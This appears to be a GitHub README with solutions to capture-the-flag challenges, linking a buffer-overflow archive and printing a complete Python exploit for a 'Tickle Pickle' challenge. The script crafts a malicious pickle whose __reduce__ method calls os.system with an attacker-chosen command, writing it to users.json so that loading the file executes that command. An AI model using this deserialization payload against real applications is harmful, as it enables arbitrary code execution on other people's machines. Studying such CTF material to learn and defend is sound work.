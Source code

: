 # sainya-ranakshetram-challenges-
Buffer Over Flow , Tickle Pickle

# BufferOverFlow :

## [Buffer-Overflow.zip](https://github.com/G0urav007/sainya-ranakshetram-challenges-/files/7604150/Buffer-Overflow.zip)


# Tickle Pickle :

##
exploit.py

#!/usr/bin/env python3

import os
import pickle
import argparse

 Thanks https://davidhamann.de/2020/04/05/exploiting-python-pickle/
class Exploit:
    def __init__ (self, command):
        self.command = command

    def __reduce__ (self):
        return (os.system, (self.command, ), )

def exploit ():
    parser = argparse.ArgumentParser('Exploit for TicklePickle Sainya Ranakshetram CTF')
    parser.add_argument('--command', help = 'Command to execute by attacker on client\'s machine', required = True, type = str)

    args = parser.parse_args()

    with open('users.json', 'wb') as file:
        pickled = pickle.dumps(Exploit(args.command))
        file.write(pickled)

if __name__ == '__main__':
    exploit()
    
 Thank you ..
